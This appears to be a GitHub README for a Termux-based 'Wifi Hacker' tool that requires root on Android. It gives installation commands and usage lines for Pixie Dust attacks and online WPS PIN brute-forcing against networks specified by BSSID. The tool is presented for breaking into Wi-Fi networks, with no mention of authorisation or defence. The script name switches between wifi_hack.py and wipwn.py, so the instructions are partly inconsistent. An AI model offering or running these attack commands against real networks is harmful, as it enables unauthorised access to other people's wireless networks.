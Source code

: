 <h1 align="center">Wifi Hacker</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw -y
git clone https://github.com/sadman-11/wifi-hack 
cd wifi-hack 
pip3 install -r requirements.txt
chmod +x wifi_hack.py
```
#### Help : `sudo python wifi_hack.py --help`
#### Example : `sudo python wifi_hack.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wipwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wipwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
MIT License

Copyright (c) 2023 🅼🅾🅽🆃🅾🆄🅲🅷🇧🇩

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
````

+ **IF FAILED TURN OFF LOCATION IF TURNED ON.**

Repo : <a href="https://github.com/MontouchUK/Wi-Fuck"> Here </a>

##### Modify History : rofl0r => 🅼🅾🅽🆃🅾🆄🅲🅷🇧🇩
<div align="center">
<h3>━━━━ Connect with me ━━━━</h3>
<a href="https://fb.com/montouch.mohaimin" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="Montouch" height="30" width="40" /></a>
</div>
<a href="https://github.com/sadman-11">  <img align="center" src="https://visitor-badge.laobi.icu/badge?style=flat-square&page_id=sadman-11.wifi-hack"></a>
